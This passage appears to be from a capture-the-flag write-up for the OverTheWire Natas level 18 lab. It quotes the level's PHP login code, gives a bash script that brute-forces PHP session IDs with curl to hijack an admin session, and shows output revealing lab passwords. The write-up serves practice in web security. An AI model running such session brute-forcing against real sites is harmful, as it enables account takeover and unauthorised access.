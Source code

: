 ```
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    session_start();
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
    }
}

if($showform) {
?>

<p>
Please login with your admin account to retrieve credentials for natas19.
</p>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<?php } ?>
```

One of the 640 IDs is probably the Admin session ID, so let's bruteforce all of them:
```
#!/bin/bash

IDS=640
URL="natas18.natas.labs.overthewire.org/index.php/index.php?debug=1"
LOGIN="natas18:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ"
PASS=""

for id in $(seq 1 $IDS); do
	curl $URL -u $LOGIN -s -H "Cookie: PHPSESSID=$id" | grep "Password"
done

echo "Password for natas18: $PASS"
```

```
abs@MacBookPro natas % ./brute_force_natas18.sh
<body>
<h1>natas18</h1>
<div id="content">
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas19
Password: tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
# Level 18 -> 19:
